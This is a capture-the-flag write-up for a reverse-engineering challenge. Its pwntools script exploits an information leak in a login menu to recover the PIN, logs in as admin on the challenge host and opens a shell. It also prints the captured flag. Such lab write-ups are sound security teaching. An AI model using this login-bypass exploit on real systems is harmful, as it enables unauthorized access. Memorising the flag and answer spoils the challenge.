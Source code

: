 # Reverse Engineering

## Sunshine on Filth is Not Polluted

Log in with a valid username and PIN code, and this program will give you a shell. The username is easy to identify, but the PIN code is randomly generated!

Here's a hint, but you'll need to work for it a bit. Two hashed words: f704f57ea420275ad51bf55b7dec2c96 87cd8b8808600624d8c590cfc2e6e94b

Download [re3.bin](https://uwspedu-my.sharepoint.com/:u:/g/personal/cjohnson_uwsp_edu/EbS-5wnqhodAgY0SrnJcdO4BJsDVdw0YXGrkhjSocYsJTg?e=iWGnbT)

To get the flag, you will need to exploit the binary on a live system. The binary is running on 34.123.210.162 port 20231 and the flag can be found in the /home/re3 directory when you get a shell.

---

### Solution

If we go to `(2) Confirm username` first, we will leak the authentication code rather than the username.

```python
from pwn import *

p = remote('34.123.210.162', 20231)
# p = process('./RE3.bin')
p.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
p.sendline(b'2')
p.recvuntil(b'Current username is: ')
code = p.recvline().strip()
code = int.from_bytes(code, 'little')
p.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
p.sendline(b'1')
p.recvuntil(b'Username: ')
p.sendline(b'admin')
p.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
p.sendline(b'3')
p.recvuntil(b'Enter your authentication code: ')
p.sendline(str(code).encode())
p.interactive()
```

```bash
$ python pay.py
[+] Opening connection to 34.123.210.162 on port 20231: Done
[*] Switching to interactive mode
$ ls
b
flag.txt
re3.bin
$ cat flag.txt
poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}
```

### poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}